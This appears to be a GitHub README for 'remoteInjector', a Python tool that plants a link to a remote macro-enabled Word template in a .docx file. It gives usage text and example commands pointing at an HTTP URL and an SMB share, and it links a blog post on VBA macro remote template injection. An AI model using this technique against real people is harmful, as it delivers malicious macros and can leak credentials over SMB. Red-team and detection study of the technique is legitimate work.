 # remoteInjector
Injects link to remote word template into word document.

[Related Blog Post](http://john-woodman.com/posts/VBA-Macro-Remote-Template-Injection/)
## Requirements
- Python2.7
## Usage
```
usage: remoteinjector.py [-h] [-w URL] F

Inject Template Through Relationship Settings

positional arguments:
  F           .docx file to inject template into

optional arguments:
  -h, --help  show this help message and exit
  -w URL      remote url to template

Example of use
To inject remote http url:

remoteinjector.py -w https://example.com/template.dotm example.docx

To inject SMB path:

remoteinjector.py -w \\1.1.1.1\C$\TEMP\template.dotm example.docx
```
